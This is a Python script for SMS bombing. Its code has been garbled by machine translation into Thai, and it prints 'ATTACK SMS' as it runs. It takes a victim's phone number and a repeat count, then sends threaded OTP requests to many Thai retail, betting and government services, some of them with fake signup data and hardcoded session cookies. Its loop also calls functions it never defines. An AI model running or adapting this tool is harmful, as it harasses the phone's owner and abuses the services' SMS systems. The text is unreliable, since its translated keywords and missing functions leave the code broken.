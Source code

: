 คำขอนำเข้า
 เวลานำเข้า
นำเข้า เกลียว
จาก การทำเกลียว นำเข้า Thread
พิมพ์ ( "" )
print ( " ไก่ทอง")
พิมพ์ ( "" )
phone  =  input ( "เบอร์ : " )
NUM  =  int ( อินพุต ( "จำนวน: " ))

พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺...." )
พิมพ์ ( "" )

def  api ():
	คำขอ _ โพสต์ ( "https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp" , data = { "mobile_phone_no" : phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : LOTUSS" )

def  api2 ():
	คำขอ _ โพสต์ ( "https://www.aurora.co.th/signin/otp_chk" , data = f"mobile= { phone } &type_otp=3" )
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : เจสัน" )

def  api3 ():
	คำขอ _ โพสต์ ( "https://tamjaibet.com/api/request/otp" , ข้อมูล= { "PhoneNumber" : "0" + โทรศัพท์ , "เข็ม" : "HFdjc3ZU4WAnxLQQcCWB0TWV9zPCdpWmFpCUApNUtwAENbCGJkEAR9ckcdc20XMFR8HVQhEkREXwIOcDwnKRl1LDpXaQMJYB8ZSBQzZRdpem4YF3VHST0BYVQTU1NEcQATSSgpOnY3ZS9ZAFw3WSZXASwecS4LZD5wWhRicklxFQ1cFVAiczQOYxYSfUkaTD1sSSFTZU0mRDoZciRkEHV9dTE" })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MOVDIER" )

def  api4 ():
	คำขอ _ โพสต์ ( "https://store.boots.co.th/api/v1/guest/register/otp-challenge" , json = { "phone_number" : "+66" + phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : BOOT" )

def  api5 ():
	คำขอ _ post ( "https://www.carsome.co.th/website/login/sendSMS" , json = { "username" : "phone" , "optType" : 0 })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON2" )

def  api6 ():
	คำขอ _ โพสต์ ( "https://gamingnation.dtac.co.th/api/otp/generate" , json = { "template" : "register" , "phone_no" : "phone" })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : OTP " )

def  api7 ():
	คำขอ _ โพสต์ ( "https://cognito-idp.ap-southeast-1.amazonaws.com/" , headers = { "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "content-type" : "application/x-amz-json-1.1" , "x-amz-target" : "AWSCognitoIdentityProviderService.SignUp" , "x- amz-user-agent" : "aws-amplify/0.1.x js" , "ผู้อ้างอิง" : "https://www.bugaboo.tv/members/signup/phone""ClientId" : "6g47av6ddfcvi06v4l186c16d6" , "Username" : f"+66 { phone [ 1 :] } " , "Password" : "098098Az" , "UserAttributes" :[{ "Name" : "name" , "Value" : "Dbdh" },{ "Name" : "birthdate " , "Value" : "2005-01-01" },{ "Name" : "gender" ,"ค่า" : "ชาย" },{ "ชื่อ" :"phone_number" , "Value" : f"+66 { phone [ 1 :] } " },{ "Name" : "custom:phone_country_code" , "Value" : "+66" },{ "Name" : "กำหนดเอง :is_agreement" , "Value" : "true" },{ "Name" : "custom:allow_consent" , "Value" : "true" },{ "Name" : "custom:allow_person_info", "ค่า" : "จริง" }], "ValidationData":[]})
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : NODE" )

def  api8 ():
	คำขอ _ โพสต์ ( "https://cognito-idp.ap-southeast-1.amazonaws.com/"ส่วนหัว= { "cache-control" : "max-age=0" , "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "content-type" : "application/x-amz-json-1.1" , "x- amz-target" : "AWSCognitoIdentityProviderService.ResendConfirmationCode" , "x-amz-user-agent" : "aws-amplify/0.1.x js" ,"https://www.bugaboo.tv/members/resetpass/phone" }, json = { "ClientId" : "6g47av6ddfcvi06v4l186c16d6" , "Username" : f"+66 { phone [ 1 :] } " })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON" )

def  api9 ():
	คำขอ _ โพสต์ ( "https://api.scg-id.com/api/otp/send_otp"ส่วนหัว= { "ประเภทเนื้อหา" : "application/json;charset=UTF-8" }, json = { "phone_no" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JAVA" )

def  api10 ():
	คำขอ _ โพสต์ ( "https://ep789bet.net/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C" )

def  api11 ():
	คำขอ _ โพสต์ ( "http://b226.com/x/code" , data = { f"phone" : phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C+" )

def  api12 ():
	คำขอ _ โพสต์ ( "https://www.msport1688.com/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : HTML" )

def  api13 ():
	คำขอ _ รับ ( "https://m.redbus.id/api/getOtp?number=" + โทรศัพท์ [ 1 :] + "&cc=66&whatsAppOpted=true"ส่วนหัว= { "traceparent" : "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01 " , "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" }) ข้อความ
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PHP" )

def  api14 ():
	คำขอ _ โพสต์ ( "https://www.msport1688.com/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MC∆T" )

def  api15 ():
	คำขอ _ โพสต์ ( 'https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp'ส่วนหัว = { "User-Agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 ( KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "Content-Type" : "application/x-www-form-urlencoded; charset=UTF-8" , "X-Requested-With" : "XMLHttpRequest " , "คุกกี้" :"sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"}, data = f"dCard=1358231116147&Mobile= { phone } &password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=40 gmaidtype "
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : END" )



สำหรับ ฉัน อยู่ใน ช่วง ( NUM ):
	เกลียว _ เธรด ( เป้าหมาย= api ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api2 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api3 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api4 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api5 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api6 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api7 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api8 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api9 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api10 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api11 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api12 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api13 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api14 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api15 ) เริ่ม () 
	เกลียว _ เธรด ( เป้าหมาย= api16 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api17 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api18) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api19 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api20) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api21) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api22) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api23 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api24 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api 25) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api26 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api27 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api28 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api29 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api30 ) เริ่ม () 
